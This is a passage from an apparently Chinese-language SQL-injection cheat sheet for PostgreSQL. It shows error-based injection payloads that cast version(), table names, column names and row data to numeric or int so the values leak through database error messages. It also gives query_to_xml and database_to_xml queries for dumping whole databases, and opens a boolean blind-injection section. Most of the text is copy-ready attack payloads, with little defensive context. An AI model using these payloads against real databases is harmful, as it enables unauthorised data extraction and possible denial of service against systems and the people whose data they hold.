 

这个语句的作用是将数据库的版本信息（一个字符串）转换为一个数值，和7778进行比较。显然，这个转换是不合法的，所以数据库会返回一个错误信息，类似这样：

```javascript
ERROR: invalid input syntax for type numeric: "PostgreSQL 13.3 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 10.2.0, 64-bit"
```



从这个错误信息中，我们就可以获取到数据库的版本信息。同理，我们可以利用这种方法，获取数据库的其他信息，如模式名称、表名、字段名、字段内容等。

```postgresql
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```



# 0x02 XML helpers

```postgresql
select query_to_xml('select * from pg_user',true,true,''); -- returns all the results as a single xml row
```

query_to_xml将指定查询的所有结果作为单个结果返回。将其与PostgreSQL报错注入链接起来以窃取数据，而不必担心LIMIT查询到一个结果

```postgresql
select database_to_xml(true,true,''); -- dump the current database to XML
select database_to_xmlschema(true,true,''); -- dump the current db to an XML schema
```

对于上述查询，输出需要在内存中组装。对于较大的数据库，这可能会导致速度减慢或拒绝服务情况。



# 0x03 盲注

#### **布尔**

```
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```
